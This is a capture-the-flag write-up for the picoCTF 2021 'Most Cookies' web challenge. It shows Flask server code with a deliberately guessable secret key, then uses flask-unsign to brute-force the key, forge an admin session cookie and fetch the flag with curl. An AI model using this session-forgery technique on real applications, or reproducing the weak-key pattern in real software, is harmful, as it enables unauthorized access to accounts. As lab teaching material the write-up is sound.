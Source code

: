 # Most Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Alright, enough of using my own encryption. 
Flask session cookies should be plenty secure! 

server.py 
http://mercury.picoctf.net:18835/

Hints:
1. How secure is a flask cookie?
```

## Solution
 
According to the challenge description we should expect a flask session cookie. This cookie is normally called `session`.

### Analyse the source code

Lets start by analysing the server source code
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

We can see that the secret key is chosen randomly from one of the cookie names
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

We want the `very_auth` value to be set to `admin` to get the flag
```python
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

### Create a cookie wordlist

To get the secret key we need to create a wordlist with all the cookie names.  
We use some command-line kung-fu to do this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]'
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]' > cookies_wordlist.txt

```

### Get the secret key

We will use the [flask-unsign tool](https://pypi.org/project/flask-unsign/) to get the secret key
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --unsign --server 'http://mercury.picoctf.net:18835/' --wordlist cookies_wordlist.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZSv2EQ.LJQ2BhAgtiyRAhfIe8WV6U12bmc
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

So the secret key is `fortune`.

### Forge a flask session cookie

Now we can forge a flask session cookie with the value of `admin`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune               
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk
```

### Get the flag

Finally we can use `curl` and `grep` to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ curl -s --cookie "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk" http://mercury.picoctf.net:18835/display | grep -oE 'picoCTF{.*}'
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cut - Linux manual page](https://man7.org/linux/man-pages/man1/cut.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [sed - Linux manual page](https://man7.org/linux/man-pages/man1/sed.1.html)
- [tr - Linux manual page](https://man7.org/linux/man-pages/man1/tr.1.html)
- [PyPI - flask-unsign](https://pypi.org/project/flask-unsign/)
- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
